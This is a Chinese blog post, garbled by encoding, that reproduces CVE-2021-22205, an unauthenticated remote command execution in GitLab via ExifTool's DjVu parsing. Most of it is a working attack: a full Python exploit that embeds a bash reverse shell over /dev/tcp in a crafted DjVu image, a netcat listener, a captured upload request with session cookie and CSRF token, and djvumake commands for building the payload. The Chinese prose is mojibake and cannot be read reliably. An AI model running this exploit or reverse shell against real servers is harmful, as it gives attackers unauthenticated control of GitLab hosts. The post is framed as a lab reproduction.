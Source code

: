 ```yaml
---
author: Yuan
date: 2024-03-11 00:40 +0800
categories: [web, ] 
tags: [cms, GitLab, CVE]
img_path: /img/AD/
---
```


## 0x00 ćźć´çŽäť

ĺ¨ GitLab CE/EE ä¸­ĺç°äşä¸ä¸ŞéŽé˘ďźĺ˝ąĺäşäť 11.9 ĺźĺ§ççćŹăGitLab ć˛Ąćć­ŁçĄŽéŞčŻäź éçťćäťśč§Łćĺ¨çĺžĺćäťśďźčżĺŻźč´äşćŞçťčşŤäť˝éŞčŻçčżç¨ĺ˝äť¤ć§čĄă

**ćźć´ĺ˝ąĺçćŹďź**

> 11.9 <= Gitlab CE/EE < 13.8.8
> 
> 13.9 <= Gitlab CE/EE < 13.9.6
> 
> 13.10 <= Gitlab CE/EE < 13.10.3
{: .prompt-info}

#### 1ăgitlabäťçť

GitLabćŻçąGitLabInc.ĺźĺďźä˝żç¨MITčŽ¸ĺŻčŻçĺşäşç˝çťçGitäťĺşçŽĄçĺˇĽĺˇďźä¸ĺˇćwikiĺissuečˇč¸Şĺč˝ăä˝żç¨Gitä˝ä¸şäťŁç çŽĄçĺˇĽĺˇďźĺšśĺ¨ć­¤ĺşçĄä¸ć­ĺťşčľˇćĽçwebćĺĄă

![ćŞĺž](53f251f94670a4aec3de59c5c0d2912f.png)

ĺŻäťĽçĺ°ĺ¨gitlabççťćä¸­ĺĺŤçĺç§çťäťśďźĺŻäťĽéčżä¸¤ä¸ŞĺłéŽĺĽĺŁčŽżéŽďźĺĺŤćŻHTTP/HTTPS(TCP 80,443)ĺSSH(TCP 22)ďźčŻˇćąéčżnginxč˝Źĺĺ°WorkhorseďźçśĺWorkhorseĺPumačżčĄäş¤äşďźčżéćäťŹçéäťçťä¸éčżWebčŽżéŽççťäťśGitLab Workhorseă

> Puma ćŻä¸ä¸Şç¨äş Ruby ĺşç¨ç¨ĺşççŽĺăĺżŤéăĺ¤çşżç¨ĺéŤĺşŚĺšśĺç HTTP 1.1 ćĺĄĺ¨ďźç¨äşćäžGitLabç˝éĄľĺAPIăäť GitLab 13.0 ĺźĺ§ďźPumaćä¸şäşéťčŽ¤çWebćĺĄĺ¨ďźćżäťŁäşäšĺçUnicornăčĺ¨GitLab 14.0ä¸­ďźUnicorn äťLinux ĺä¸­ĺ é¤ďźĺŞćPumaĺŻç¨ă

čćźć´çćĺ ĺ°ąĺ¨äş`Gitlab Workhorse`ĺ¤çćäťśçčżç¨ä¸­ă

#### 2ăćźć´ćĺ 

ĺ˝ćäťŹĺŠç¨ćĽĺŁ`/uploads/user`ä¸äź ĺžĺćäťśćśďź`GitLab Workhorse`äźĺ°ćŠĺąĺä¸ş`jpgăjpegătiff`ćäťśäź éçť`ExifTool`ăč`ExifTool`ä˝ç¨ĺ¨äşĺ é¤ĺśä¸­ä¸ĺćłçć ç­žăč`ExifTool`ĺ¨č§Łććäťśçćśĺäźĺż˝çĽćäťśçćŠĺąĺďźĺ°čŻć šćŽćäťśçĺĺŽšćĽçĄŽĺŽćäťśçąťĺďźĺśä¸­ćŻćççąťĺćDjVuă

> DjVućŻçąAT&TĺŽéŞĺŽ¤čŞ1996ĺš´čľˇĺźĺçä¸ç§ĺžĺĺçźŠććŻďźĺˇ˛ĺĺąćä¸şć ĺçĺžĺććĄŁć źĺźäšä¸;
> 
> ExifToolćŻä¸ä¸ŞçŹçŤäşĺšłĺ°çPerlĺşďźä¸ćŹžč˝ç¨ä˝ĺ¤ĺč˝ĺžçäżĄćŻćĽçĺˇĽĺˇăĺŻäťĽč§Łćĺşç§ççexifäżĄćŻďźĺŻäťĽçźčžäżŽćšexifäżĄćŻďźç¨ćˇč˝ĺ¤č˝ťćžĺ°čżčĄćĽçĺžĺćäťśçEXIFäżĄćŻďźĺŽçžćŻćexifäżĄćŻçĺŻźĺşă
{: .prompt-info}

ĺłéŽĺ¨äşExifToolĺ¨č§ŁćDjVućł¨éçParseAntĺ˝ć°ä¸­ĺ­ĺ¨ćźć´ďźćäťĽćäťŹĺ°ąĺŻäťĽéčżćé DjVućäťśĺšśćĺĽćśććł¨éĺĺŽšĺ°ĺśćšä¸şjpgĺçźä¸äź ďźĺ ä¸şgitlabĺšśćŞĺ¨čżä¸Şčżç¨ä¸­éŞčŻćäťśĺĺŽšćŻĺŚćŻĺčŽ¸çć źĺźďźćĺčŽŠExifTooläťĽDjVuĺ˝˘ĺźćĽč§Łććäťśďźé ćäşExifTooläťŁç ć§čĄćźć´ă

äťĽä¸çĺĺŽšĺččŞďź [AirSky](https://mp.weixin.qq.com/s/Y4mGVhbc3agp1adnUs1GmA)

## 0x01 ćźć´ĺ¤ç°

ććŻĺŠç¨vulfocusć­ĺťşçŻĺ˘čżčĄĺ¤ç°ă

čżé,ćäťŹĺŻäťĽç´ćĽĺŠç¨ç˝ä¸ĺźćşçä¸äşčćŹ:

```python
#!/usr/bin/env python
# -*- coding:utf-8 -*-
import requests
from bs4 import BeautifulSoup

class Exploit():
    __info__ = {
        'name': 'CVE-2021-22205',
        'desription': 'gitlab ćŞććčżç¨ĺ˝äť¤ć§čĄ',
        'references': ['https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22205'],
        'devices': ['gitlab',
                    '11.9=< version <13.8.8',
                    '13.9=< version <13.9.6',
                    '13.10=< version <13.10.3'
        ],
    }


    target = "192.168.31.38"
    port = 43536
    reverseShell = "echo '/bin/bash -i >& /dev/tcp/{}/{} 0>&1' > /tmp/shell.sh && chmod 777 /tmp/shell.sh && /bin/bash /tmp/shell.sh"

    def exploit(self):
        proxies = {'http': 'http://127.0.0.1:8080', 'https': 'https://127.0.0.1:8080'}
        session = requests.Session()
        session.proxies = proxies
        requests.packages.urllib3.disable_warnings()
        url = "http://{}:{}".format(self.target, self.port)
        try:
            r = session.get(url.strip("/") + "/users/sign_in", verify=False)
            soup = BeautifulSoup(r.text, features="lxml")
            token = soup.findAll('meta')[16].get("content")
            data = "\r\n------WebKitFormBoundaryIMv3mxRg59TkFSX5\r\nContent-Disposition: form-data; name=\"file\"; filename=\"test.jpg\"\r\nContent-Type: image/jpeg\r\n\r\nAT&TFORM\x00\x00\x03\xafDJVMDIRM\x00\x00\x00.\x81\x00\x02\x00\x00\x00F\x00\x00\x00\xac\xff\xff\xde\xbf\x99 !\xc8\x91N\xeb\x0c\x07\x1f\xd2\xda\x88\xe8k\xe6D\x0f,q\x02\xeeI\xd3n\x95\xbd\xa2\xc3\"?FORM\x00\x00\x00^DJVUINFO\x00\x00\x00\n\x00\x08\x00\x08\x18\x00d\x00\x16\x00INCL\x00\x00\x00\x0fshared_anno.iff\x00BG44\x00\x00\x00\x11\x00J\x01\x02\x00\x08\x00\x08\x8a\xe6\xe1\xb17\xd9*\x89\x00BG44\x00\x00\x00\x04\x01\x0f\xf9\x9fBG44\x00\x00\x00\x02\x02\nFORM\x00\x00\x03\x07DJVIANTa\x00\x00\x01P(metadata\n\t(Copyright \"\\\n\" . qx{" + self.reverseShell + "} . \\\n\" b \") )                                                                                                                                                                                                                                                                                                                                                                                                                                     \n\r\n------WebKitFormBoundaryIMv3mxRg59TkFSX5--\r\n\r\n"
            headers = {
                "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36",
                "Connection": "close",
                "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryIMv3mxRg59TkFSX5",
                "X-CSRF-Token": f"{token}", "Accept-Encoding": "gzip, deflate"}
            flag = 'Failed to process image'
            req = session.post(url.strip("/") + "/uploads/user", data=data, headers=headers, verify=False)
            print(session.body)
            x = req.text
            if flag in x:
                return "success!!!"
            else:
                print("[-] Vuln Check Failed... ...")
                return 'failed'
        except Exception as error:
            print(error.with_traceback())
            print("[-] Vuln Check Failed... ...")
            return 'failed'

    def run(self):
        res = self.exploit()
        return res

if __name__ == '__main__':
    exploit = Exploit()
    '''
    ĺ¨GitLab CE/EEä¸­ĺç°ä¸ä¸ŞéŽé˘ďźäť11.9ĺźĺ§ĺ˝ąĺććçćŹă
    GitLabć˛Ąćć­ŁçĄŽĺ°éŞčŻäź éçťćäťśč§Łćĺ¨çĺžĺćäťśďźĺŻźč´čżç¨ĺ˝äť¤ć§čĄ
    ć­¤čćŹĺŠç¨ć­¤ćźć´čżčĄĺĺźšshell, ćľčŻĺčŻˇéç˝ŽĺĽ˝ä¸é˘ç listenIp ĺ listenPort ĺć°
    '''
    exploit.target= "192.168.31.38" # çŽć ćĺĄĺ¨
    exploit.port = 43536      # çŽć çŤŻĺŁ
    listenIp = "192.168.31.38" # ćŹĺ°çĺŹip
    listenPort = "6666"   # ćŹĺ°çĺŹçŤŻĺŁ
    exploit.reverseShell = exploit.reverseShell.format(listenIp,listenPort)
    result = exploit.run()
    print(result)

```
{: file='1.pyl'}

čżé,ćäťŹĺŞéčŚäżŽćšä¸ä¸ĺŠç¨ĺ°ĺĺçŤŻĺŁ ďźčżććŹĺ°çĺŹçĺ°ĺĺçŤŻĺŁă

çśĺďźćäťŹéčŚĺŠç¨ncçĺŹćŹĺ°çŤŻĺŁďź

```bash
nc.exe -lvnp 6666
```

çśĺĺŻĺ¨čćŹďź

```bash
python 1.py
```

äšĺďźĺ°ąĺŻäťĽĺŻäťĽçĺ°shellçĺĺźšäşă

## 0x02 čćŹäťŁç ĺć

čżéďźććŞä¸ćľéĺçĺžçďźäťĽäžżćäťŹĺŻäťĽçĺ°čćŹäťŁç ä¸­ĺéçćľéćĺľďź

```sass
POST /uploads/user HTTP/1.1
Host: 192.168.31.38:43536
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryIMv3mxRg59TkFSX5
X-CSRF-Token: BYGxDBZjz3NG0PKDN1lK1fMagmzwzsPNyod+zPUBYlYL9rGDbXJDAS6JJCBMGxQNKD/PIpool1nVPBv159zTew==
Cookie: _gitlab_session=addf2bf61cd6e800858774f8cb8ea0a7; experimentation_subject_id=eyJfcmFpbHMiOnsibWVzc2FnZSI6IkltUTVOekk0TVRZMUxUTXdObU10TkRkaVpDMWlOemN6TFRSaE5XWmxNREpqTXpWbU5DST0iLCJleHAiOm51bGwsInB1ciI6ImNvb2tpZS5leHBlcmltZW50YXRpb25fc3ViamVjdF9pZCJ9fQ%3D%3D--70dccc24ff47022870ee986c26295ba243fc285e
Content-Length: 971


------WebKitFormBoundaryIMv3mxRg59TkFSX5
Content-Disposition: form-data; name="file"; filename="test.jpg"
Content-Type: image/jpeg

AT&TFORM  çJVMDIRM   .?    F   ?ďŁľč?!č˘N? äşżĺ Łké°,qé č§§ćŻâ"?FORM   ^DJVUINFO   
   d  INCL   shared_anno.iff BG44    J  ĺŠĺ˛7?*? BG44   éśĄBG44   
FORM   DJVIANTa  P(metadata
	(Copyright "\
" . qx{echo '/bin/bash -i >& /dev/tcp/192.168.31.38/6666 0>&1' > /tmp/shell.sh && chmod 777 /tmp/shell.sh && /bin/bash /tmp/shell.sh} . \
" b ") )                                                                                                                                                                                                                                                                                                                                                                                                                                     

------WebKitFormBoundaryIMv3mxRg59TkFSX5--
```
{: file='ć°ćŽĺ'}

![ćŞĺž](8f00070c63b3c49d089da52c0b7ed354.png)

çśĺďźäťĺžä¸­ĺŻäťĽçĺ°ďźčżéćäťŹĺŠç¨çä¸äź ćĽĺŁçĄŽĺŽćŻ`/uploads/user`ďźé¤ć­¤äšĺ¤ďźäťŁç ćŹčşŤčżéčżčˇĺ`X-CSRF-Token`ĺćŞçťĺ˝`Session`ćĽčżčĄćŞććčŽżéŽă

čä¸äź çć°ćŽĺĺĺŽšďźĺćŻä¸ä¸ŞDjVućäťśçĺĺŽšć źĺźďźĺśä¸­čżĺĺŤäşćäťŹćł¨éçćśćäťŁç ĺĺŽšďźäťĽäžżčŽŠ`ExifTool`ĺŽććçťçäťŁç ć§čĄă

ĺ˝çśďźčżéćäťŹäšĺˇ˛ç´ćĽä˝żç¨`DjVu`ćĽĺĺťşćäťŹçćśćäťŁç ăç¨ćłďźďźĺ¨kaliä¸­ďź

```shell
sudo apt-get install -y djvulibre-bin
```

ĺĺ¤ĺĽ˝ćśćććŹďź

```sass
(metadata
	(Copyright "\
"  qx{echo '/bin/bash -i >& /dev/tcp/{}/{} 0>&1' > /tmp/shell.sh && chmod 777 /tmp/shell.sh && /bin/bash /tmp/shell.sh"} . \
" b ") )
```
{: file='cve.txt'}

ĺśä˝`DjVu`ĺžçć źĺźďź
```shell
djvumake rce.djvu INFO=0,0 BGjp=/dev/null ANTa=rce.txt && mv rce.djvu rce.jpg
```

ćçťjpgéçĺĺŽšä¸şďź
![ćŞĺž](20240311003341298.png)
